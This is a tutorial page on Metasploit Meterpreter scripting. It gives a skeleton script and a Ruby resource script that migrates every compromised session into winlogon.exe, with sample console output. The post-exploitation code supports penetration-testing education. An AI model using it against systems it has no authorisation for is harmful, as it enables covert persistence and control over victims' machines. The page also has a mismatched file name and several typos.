 # Meterpreter Scripting

Since the Meterpreter scripting is planned to be removed and replaced with POST module, we'll put a skeleton Meterpreter script only.

You can locate you new Meterpreter script in

* The framework it-self `metasploit-framework/scripts/meterpreter` or,
* In your Metasploit user's path `~/.msf/scripts/meterpreter`

## Absolute Meterpreter Script

```ruby
# $Id$
# $Revision$
# Author: 
#-------------------------------------------------------------------------------
################## Variable Declarations ##################

@client = client
sample_option_var = nil
@exec_opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ],
    "-o" => [ true , "Option that requires a value"]
    )
meter_type = client.platform

################## Function Declarations ##################

# Usage Message Function
#-------------------------------------------------------------------------------
def usage
    print_line "Meterpreter Script for INSERT PURPOSE."
    print_line(@exec_opts.usage)
    raise Rex::Script::Completed
end

# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
    print_error("#{meter} version of Meterpreter is not supported with this Script!")
    raise Rex::Script::Completed
end

################## Main ##################
@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
        usage
    when "-o"
        sample_option_var = val
    end
}

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64|java|php|linux/i # Remove none supported versions
```

The script is directly quoted from the Metasploit samples

## Run Process migration on multiple meterpreter sessions

From \`msfconsole\` and after getting all metherpreter sessions, go to `post/windows/manage/migrate`

```
use post/windows/manage/migrate
```

> **Note:** make sure you've the sufficient privileges to migrate to the designated processe

Then create a file with `rc` extension including the `<ruby> </ruby>` tages

**mass-mirgation.rc**

```ruby
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby>
```

Now, from msfconsole,

```
resource /home/rubyfu/mass-migration.rc
```

Result will be similar to

```
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2240

[+] Successfully migrated to process 3628
[+] Successfully migrated to process 2444
[+] Successfully migrated to process 2240
```



